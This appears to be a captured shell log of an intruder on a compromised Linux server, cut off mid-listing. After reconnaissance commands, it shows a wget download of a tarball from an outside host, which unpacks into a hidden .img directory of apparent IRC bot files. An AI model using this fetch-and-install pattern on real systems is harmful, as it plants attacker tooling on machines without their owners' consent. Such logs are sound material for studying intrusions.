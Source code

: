    address sizes    : 36 bits physical, 48 bits virtual
    power management:

    server:~# uname -a
    Linux server 2.6.26-2-686 #1 SMP Wed Nov 4 20:45:37 UTC 2009 i686 GNU/Linux

    server:~# ls -a
    .         ..        .debtags  .viminfo  .aptitude .profile  .bashrc

    server:~# ps x
      PID TTY          TIME CMD
     5673 pts/0    00:00:00 bash
     5677 pts/0    00:00:00 ps x

    server:~# wget http://download.microsoft.com/download/win2000platform/SP/SP3/NT5/EN-US/W2Ksp3.exe
    --2011-01-26 23:31:12--  http://download.microsoft.com/download/win2000platform/SP/SP3/NT5/EN-US/W2Ksp3.exe
    Connecting to download.microsoft.com:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 130978672 (124M) [application/octet-stream]
    Saving to: `W2Ksp3.exe
     7% [===>                                   ] 10,422,763   1731K/s  eta 1m 9s^C
    200 OK

    server:~# rm -rf W2Ksp3.exe

    server:~# wget http://eu-ro.ca/img.tar
    --2011-01-26 23:31:31--  http://eu-ro.ca/img.tar
    Connecting to eu-ro.ca:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 659886 (644K) [application/x-tar]
    Saving to: `img.tar
    100%[======================================>] 659,886      219K/s  eta 0s
    2011-01-26 23:31:34 (219 KB/s) - `img.tar' saved [659886/659886]

    server:~# tar zxvf img.tar
    .img
    .img/start
    .img/run
    .img/r
    .img/r/rversions.e
    .img/r/rtsay.e
    .img/r/rsignoff.e
    .img/r/rsay.e
    .img/r/rpickup.e
    .img/r/rnicks.e
    .img/r/rkicks.e
    .img/r/rinsult.e
    .img/r/raway.e
    .img/pico
    .img/m.help
    .img/inst
    .img/bash
    .img/autorun
    .img
    .img/start
    .img/run
    .img/r
    .img/r/rversions.e
    .img/r/rtsay.e
    .img/r/rsignoff.e
    .img/r/rsay.e
    .img/r/rpickup.e
    .img/r/rnicks.e
    .img/r/rkicks.e
    .img/r/rinsult.e
    .img/r/raway.e